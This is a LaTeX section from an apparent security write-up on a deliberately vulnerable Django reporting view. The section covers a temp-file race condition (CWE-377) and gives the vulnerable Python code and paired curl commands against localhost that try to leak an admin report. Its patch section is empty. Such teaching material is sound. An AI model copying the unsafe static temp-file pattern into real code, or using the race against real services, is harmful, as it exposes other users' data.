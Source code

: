 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Vulnerability 8: Race Condition in File Generation (Vulnerability D - Unsafe Temp Files - CWE-377)}

\subsubsection{Description}
Race condition vulnerability due to predictable temporary file paths that are reused across users. Static temporary filename allows concurrent requests to overwrite each other's data, causing race condition vulnerabilities.

\subsubsection{Vulnerable Code}

\begin{lstlisting}[language=Python]
def vulnerable_report(request):
    report_id = request.GET.get('id', '1')
    report = DiagnosticReport.objects.get(id=report_id)
    
    # VULNERABILITY: Static temp filename
    temp_file_path = "/tmp/scada_report_temp.pdf"
    
    c = canvas.Canvas(temp_file_path, pagesize=letter)
    c.drawString(100, 750, f"Report ID: {report.id}")
    c.drawString(100, 730, report.details)
    c.save()
    
    return FileResponse(open(temp_file_path, 'rb'))
\end{lstlisting}

\subsubsection{Exploitation}

\begin{lstlisting}[language=bash]
# Terminal 1: Request report ID 1
curl "http://localhost:8000/vulnerable/report/?id=1" -o user1.pdf &

# Terminal 2: Immediately request report ID 51 (admin secret)
curl "http://localhost:8000/vulnerable/report/?id=51" -o user2.pdf &

# Race condition: both writes go to /tmp/scada_report_temp.pdf
# user1.pdf might contain admin secret if timing is right
\end{lstlisting}

\subsubsection{Patch Implementation}
\end{document}

